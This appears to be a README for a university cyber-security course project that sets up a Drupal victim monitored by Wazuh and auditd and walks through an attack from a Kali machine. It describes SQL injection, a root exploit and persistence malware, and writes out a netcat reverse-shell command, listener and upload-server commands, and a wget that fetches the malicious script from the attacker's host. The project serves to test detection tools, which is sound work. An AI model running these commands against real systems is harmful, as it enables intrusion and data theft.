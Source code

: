 # CS668A: Practical Cyber Security For Cyber Practitioners Hawkeye Final Project

Directory Structure:
```
    ├── CS668A_Hawkeye_Group_Project_demo.mp4          # Demo video for final project
    ├── OS-Vulnerability                               # OS-Vulnerability script executes and gives the root access
    ├── README.md                                      # Readme file
    ├── audit_mitre.rules                              # auditd rule mapped with mitre attack matrix
    ├── createUser.py                                  # For SQL injection attack
    |── attack.png                                     # Screenshot from project
    |── shell.png                                      # Screenshot from project
    |── Screenshot (1).png                             # Screenshot from project
    ├── presentation.pptx                              # Presentation for final project
    └── systemd1.sh                                    # Malicious script to create persistence as a service in the machine and 
                                                         exfilterate the data from the victim machine
```

> To setup the entire project please follow the steps mentioned as follows:

## Setup Victim Machine (Ubuntu 20.04)

1. The first step is to setup the drupal website and create a login page using the [link](https://www.tecmint.com/install-drupal-in-ubuntu-debian/).
2. Install the shell client module in the drupal CMS. Shell client module for drupal can be found [here](https://www.drupal.org/project/shell_client) and new module installation process is shown in the [link](https://www.drupal.org/docs/user_guide/en/extend-module-install.html).
3. Install Wazuh server using [Link](https://computingforgeeks.com/how-to-install-wazuh-server-on-ubuntu/) and set up linux agent on the victim machine using [Link](https://documentation.wazuh.com/current/installation-guide/wazuh-agent/wazuh-agent-package-linux.html)
4. Install auditd on victim machine 
 ```sh
 sudo apt update
 sudo apt-get install auditd
 systemctl status auditd
 systemctl enable auditd
 systemctl start auditd
 ```
 5. Place the `audit_mitre.rules` file provided in this repository in the directory `/etc/audit/rules.d/` 
 6. Step 3 and 4 help the victim machine to monitor the security logs.
 
## Setup Attacker Machine (Kali OS)
Open three terminals or use `tmux` to split the terminal in three parts and execute the following commands:
```sh
* Terminal 1:
python3 -m pip install --user uploadserver
# for upload server where the attacker collect the data from the victim
python3 -m uploadserver 8002

* Terminal 2:
# For downloading the malware to victim
python3 -m http.server 8001

* Terminal 3:
# for reverse shell from victim
nc.traditional -lvp 8080
```

> After setting up the infrastructure, we can attack the victim machine and check the open-source tools' efficacy.
> To perform the attack scenario follow the mentioned steps:

### Steps to follow on Victim machine
```
* Initially host the vulnerable website having the shell client enabled on the victim machine.
* Restart all the system monitoring services like wazuh and auditd for security monitoring on the host.
* For real time monitoring of attacks execute below command for auditd
```
```sh
    tail -f /var/log/audit/audit.log | awk '/key/ {print $25,$26,$28}'
```
### Screenshot for the wazuh and auditd monitoring
![log monitoring](https://github.com/nkcool5/CS668A_Hawkeye/blob/main/Screenshot%20(1).png?raw=true)

### Steps to follow on attacker machine
```
* Perform nmap on the hosted website.
* check for open port for example 80 for webserver
* open browser and visit the website hosted 
* Perform the sql injection attack using `createUser.py` script. This script will take hosted website URL, username, password as a input for creating the admin user using SQL injection attack.
* After successful login, you can access the shell through the browser and execute the below command to get reverse shell of the victim machine.
```
```sh
nc.traditional 192.168.56.1 8080 -e "/bin/bash"
```
```
* Now we have access to the victim machine we can execute the `OS-Vulnerability` to get the root access.
* After getting the root access we create a hidden directory (.tmp) for defence evasion in home directory.
* Download the malware from the attacker's machine to victim machine using command below
```
```sh
wget http://<ip-address-of-attacker>:8001/systemd1.sh
```
```
* After downloading the malware attacker will execute the malware. Malware creates a service for persistence and exfiltrate the data from the victim machine.
```
### A few screenshots from the attackers machine compromising the victim

![attack1](https://github.com/nkcool5/CS668A_Hawkeye/blob/main/shell.png?raw=true)
![attack](https://github.com/nkcool5/CS668A_Hawkeye/blob/main/attack.png?raw=true)


